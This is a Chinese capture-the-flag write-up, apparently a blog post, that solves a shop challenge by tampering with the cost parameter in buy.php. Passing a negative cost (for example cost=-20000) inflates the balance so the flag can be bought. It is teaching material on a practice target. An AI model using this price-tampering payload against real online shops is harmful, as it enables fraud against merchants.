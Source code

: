 #  【CTFer成长之路】零元购逻辑漏洞   
原创 儒道易行  儒道易行   2025-05-11 12:00  
  
## 逻辑漏洞CTF  
  
访问url:  
```
http://1b43ac78-61f7-4b3c-9ab7-d7e131e7da80.node3.buuoj.cn/

```  
  
登录页面用随意用户名+密码登录  
  
![](https://mmbiz.qpic.cn/mmbiz_png/v94hWOZcBpwVwibdmdUkaoLf2icEfm7l9r8hdibqIYtM46aElMHNEUvw5aAbYTHFw4lXiaULvnnHKnyoMq84VJ03Ew/640?wx_fmt=png&from=appmsg "")  
  
访问url文件路径：  
```
http://1b43ac78-61f7-4b3c-9ab7-d7e131e7da80.node3.buuoj.cn/user.php

```  
  
登陆后有商品列表，共三个商品,点击购买flag  
  
![](https://mmbiz.qpic.cn/mmbiz_png/v94hWOZcBpwVwibdmdUkaoLf2icEfm7l9r29jdbEcPSFN0JRj1YCocSn5aXVWXI4cZp50RCTNUeNibBlC2Sau05YA/640?wx_fmt=png&from=appmsg "")  
  
钱不够  
  
![](https://mmbiz.qpic.cn/mmbiz_png/v94hWOZcBpwVwibdmdUkaoLf2icEfm7l9ribflqXjVbSQj3VjO9uqLRwCmMsrt6dbJjKpDzK1OQyst53jauGzicSww/640?wx_fmt=png&from=appmsg "")  
  
另两个商品购买会显示各自对应的内容，并在多次购买后也会提示  
```
Money Not Enough

```  
  
结合对应的金额不难发现存在初始金额，并且金额有限。在进行购买时，url形如：  
```
buy.php?cost=200&goods=2

```  
  
其中便有消费金额的参数，后端根据消费金额直接对余额进行增减将消费金额修改为负数时，便能够使余额增长：  
```
buy.php?cost=-200&goods=2

```  
  
将数字调大便可使余额能购买Flag：  
  
构造payload：  
```
buy.php?cost=-20000&goods=1

```  
  
此时便能够正常购买Flag  
  
![](https://mmbiz.qpic.cn/mmbiz_png/v94hWOZcBpwVwibdmdUkaoLf2icEfm7l9rcParrlzgmgceBlrysK03ZJUCG4xJwcHJzcicvCD9icIhUqv9TW88Pruw/640?wx_fmt=png&from=appmsg "")  
## 声明  
  
文笔生疏，措辞浅薄，望各位大佬不吝赐教，万分感谢。  
  
免责声明：由于传播或利用此文所提供的信息、技术或方法而造成的任何直接或间接的后果及损失，均由使用者本人负责， 文章作者不为此承担任何责任。  
  
转载声明：儒道易行 拥有对此文章的修改和解释权，如欲转载或传播此文章，必须保证此文章的完整性，包括版权声明等全部内容。未经作者允许，不得任意修改或者增减此文章的内容，不得以任何方式将其用于商业目的。  
  
